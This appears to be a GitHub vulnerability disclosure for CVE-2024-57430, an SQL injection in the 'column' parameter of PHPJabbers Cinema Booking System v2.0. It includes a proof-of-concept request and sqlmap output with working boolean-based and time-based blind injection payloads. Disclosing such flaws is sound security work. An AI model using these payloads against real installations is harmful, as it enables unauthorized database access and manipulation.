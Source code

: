 # CVE-2024-57430
An SQL injection vulnerability in the pjActionGetUser function of PHPJabbers Cinema Booking System v2.0 allows attackers to manipulate database queries via the column parameter. Exploiting this flaw can lead to unauthorized information disclosure, privilege escalation, or database manipulation.

Vulnerable Parameter: ```column```

## Impact:
SQL injection can lead to unauthorized access to sensitive information, database modification, and even full compromise of the database server. This poses a critical threat to the confidentiality, integrity, and availability of the application.

## Exploit - Proof of Concept (POC)
### SQL Injection

GET Request on URL: ```http://127.0.0.1/CinemaBookingDev/index.php?controller=pjAdminUsers&action=pjActionGetUser&column=*&&direction=ASC&page=1&rowCount=10```

### SQLMAP on column
```
Parameter: #1* (URI)
  Type: boolean-based blind
  Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
  Payload: http://127.0.0.1/CinemaBookingDev/index.php?controller=pjAdminUsers&action=pjActionGetUser&column=name RLIKE (SELECT (CASE WHEN (7874=7874) THEN 0x6e616d65 ELSE 0x28 END))&direction=ASC&page=1&rowCount=10

  Type: time-based blind
  Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
  Payload: http://127.0.0.1/CinemaBookingDev/index.php?controller=pjAdminUsers&action=pjActionGetUser&column=name AND (SELECT 6530 FROM (SELECT(SLEEP(5)))UFOj)&direction=ASC&page=1&rowCount=10
```
